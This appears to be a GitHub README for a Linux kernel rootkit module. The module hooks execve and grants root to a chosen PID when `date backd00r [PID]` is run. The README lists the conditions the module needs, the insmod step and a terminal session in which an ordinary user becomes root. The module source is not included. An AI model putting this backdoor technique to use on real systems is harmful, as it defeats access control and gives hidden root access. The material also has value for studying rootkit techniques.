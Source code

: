 # Syscall hook rootkit for the Linux Kernel
This is a fun example of what can be done using Linux kernel modules.

It hooks the `execve` syscall and waits for `date` to be executed with the `backd00r` argument followed by a PID number to elevate to root credentials.

Tested with kernel 5.6.6.

## Requirements
- Linux Kernel (tested with 5.6).
- `CONFIG_KALLSYMS_ALL=y` flag should be enabled to access the syscall table.
- Kernel modules enables and signature not enforced (default).
- No LSM enabled, typically Lockdown's integrity mode disables kernel modules.

## Usage
Once the module is installed, as a regular user:
`> date backd00r [PID]`

## Example
As root:
```sh
> insmod syscall_hook_rootkit.ko
[   13.668245] syscall_hook_rootkit: loading out-of-tree module taints kernel.
[   13.669009] syscall_hook_rootkit: module verification failed: signature and/or required key missing - tainting kl
[   13.674155] All lights are green...
```

As a regular user (`$$` returns the current process' PID):
```sh
> id
uid=1000(bob) gid=1000(bob) groups=1000(bob)

> date backd00r $$
[  17.343304] SECRET: making PID 1341 root!
date: extra operand '1341'
Try 'date --help' for more information.

> id 
uid=0(root) gid=0(root) groups=0(root),1000(bob)
```
